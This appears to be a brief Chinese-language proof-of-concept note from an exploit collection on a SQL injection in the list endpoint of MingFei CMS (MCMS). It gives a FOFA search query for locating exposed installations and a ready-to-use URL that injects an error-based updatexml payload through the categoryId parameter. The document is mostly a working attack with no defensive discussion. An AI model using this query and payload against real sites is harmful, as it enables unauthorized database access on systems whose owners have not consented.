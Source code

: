 ## 铭飞CMS list接口存在SQL注入

## fofa
```
body="铭飞MCMS" || body="/mdiy/formData/save.do" || body="static/plugins/ms/1.0.0/ms.js"
```

## poc
```
http://127.0.0.1/cms/content/list?categoryId=1%27%20and%20updatexml(1,concat(0x7e,md5(123),0x7e),1)%20and%20%271
```
![image](../../images/9f9df303-e0b5-4707-a3a8-228e97ab74a0.png)
